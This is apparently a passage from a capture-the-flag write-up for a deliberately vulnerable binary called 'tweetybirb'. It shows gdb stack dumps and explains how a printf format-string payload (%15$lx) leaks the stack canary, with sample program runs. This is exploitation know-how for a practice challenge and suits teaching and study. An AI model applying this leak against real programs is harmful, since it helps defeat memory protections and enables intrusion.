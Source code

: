```
0008| 0x7fffffffe3b8 --> 0x0 
0016| 0x7fffffffe3c0 --> 0x0 
0024| 0x7fffffffe3c8 --> 0x0 
0032| 0x7fffffffe3d0 --> 0x0 
0040| 0x7fffffffe3d8 --> 0x7ffff7fab680 --> 0xfbad2087 
0048| 0x7fffffffe3e0 --> 0x0 
0056| 0x7fffffffe3e8 --> 0x7ffff7e24385 (<_IO_default_setbuf+69>:	cmp    eax,0xffffffff)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000401236 in main ()
gdb-peda$ context stack 10
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3b0 --> 0x41414141 ('AAAA')
0008| 0x7fffffffe3b8 --> 0x0 
0016| 0x7fffffffe3c0 --> 0x0 
0024| 0x7fffffffe3c8 --> 0x0 
0032| 0x7fffffffe3d0 --> 0x0 
0040| 0x7fffffffe3d8 --> 0x7ffff7fab680 --> 0xfbad2087 
0048| 0x7fffffffe3e0 --> 0x0 
0056| 0x7fffffffe3e8 --> 0x7ffff7e24385 (<_IO_default_setbuf+69>:	cmp    eax,0xffffffff)
0064| 0x7fffffffe3f0 --> 0x0 
0072| 0x7fffffffe3f8 --> 0x6da8d4b151bde400 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

We are looking for a random qword value and a good candidate is at offset 72. 
If we run the program again, the value changes, so we found it. Let's leak it by using 
printf's argument index. If we write, for example, `%2$d` it will print the second argument
instead of the current one (it is 1-indexed). The canary is the 10th argument if we only 
consider the stack, but remember on 64-bit the first 6 arguments are passed into registers.
Those registers are different on each platform, but on Linux they are, in order,
RDI, RSI, RDX, RCX, R8, R9. The first argument is the format string (passed in RDI),
so if we want the 10th value on the stack we need to print the 15th argument. Let's try it:

```
➜  tweety ./tweetybirb 
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%15$lx
4ac5aae193d7d300
hmmm interesting. What about water fowl?
^C
➜  tweety ./tweetybirb
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%15$lx
d23072495f3bb00
hmmm interesting. What about water fowl?
^C
```

